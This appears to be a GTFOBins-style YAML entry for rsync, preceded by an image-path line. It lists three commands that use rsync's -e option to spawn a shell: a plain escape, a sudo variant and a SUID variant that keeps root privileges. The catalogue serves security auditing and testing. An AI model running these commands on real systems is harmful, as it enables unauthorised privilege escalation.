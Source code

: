 ```yaml
---
functions:
  shell:
    - code: rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
  sudo:
    - code: sudo rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
  suid:
    - code: ./rsync -e 'sh -p -c "sh -p 0<&2 1>&2"' 127.0.0.1:/dev/null
---
```

